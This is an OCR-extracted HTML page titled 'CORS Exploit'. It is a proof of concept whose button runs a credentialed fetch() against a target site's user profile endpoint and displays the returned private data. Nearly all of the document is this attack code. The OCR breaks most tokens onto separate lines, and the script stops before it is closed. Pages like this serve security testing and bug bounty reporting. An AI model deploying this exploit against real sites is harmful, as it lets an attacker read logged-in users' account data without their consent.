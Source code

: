<  
body  
>  
  
  
<  
h1  
>  
CORS Exploit  
</  
h1  
>  
  
  
<  
button  
onclick  
=  
"exploit()"  
>  
Exploit  
</  
button  
>  
  
  
<  
pre  
id  
=  
"output"  
>  
</  
pre  
>  
  
  
<  
script  
>  
  
    function exploit() {  
  
      fetch("https://www.target.com/user/profile", {  
  
        method: "GET",  
  
        credentials: "include"  
  
      })  
  
      .then(res => res.text())  
  
      .then(data => {  
  
        document.getElementById("output").innerText = data;  
  
      });  
  